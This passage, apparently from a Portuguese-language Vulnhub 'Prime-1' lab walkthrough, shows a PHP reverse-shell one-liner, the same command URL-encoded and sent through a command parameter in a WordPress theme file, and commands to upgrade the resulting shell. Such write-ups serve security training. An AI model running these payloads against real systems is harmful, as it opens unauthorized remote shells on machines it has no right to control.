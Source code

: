> php -r '$sock=fsockopen("192.168.150.110",443);exec("/bin/sh -i <&3 >&3 2>&3");'


* Depois utilizamos o Burp Suite para encodar o comando

![](/assets/img/Vulnhub/Prime-1/encode-URL.png)


* Vamos deixar a porta escutando na kali e enviar o comando de shell reverso via URL

```
http://192.168.150.113/wordpress/wp-content/themes/twentynineteen/secret.php?cmd=%70%68%70%20%2d%72%20%27%24%73%6f%63%6b%3d%66%73%6f%63%6b%6f%70%65%6e%28%22%31%39%32%2e%31%36%38%2e%31%35%30%2e%31%31%30%22%2c%34%34%33%29%3b%65%78%65%63%28%22%2f%62%69%6e%2f%73%68%20%2d%69%20%3c%26%33%20%3e%26%33%20%32%3e%26%33%22%29%3b%27
```

![](/assets/img/Vulnhub/Prime-1/shell-reverso.png)




* Melhorando o shell cachorro que recebemos

```bash
script /dev/null
export TERM=xterm
python -c "import pty;pty.spawn('/bin/bash')"
```


![](/assets/img/Vulnhub/Prime-1/melhorando-shell.png)
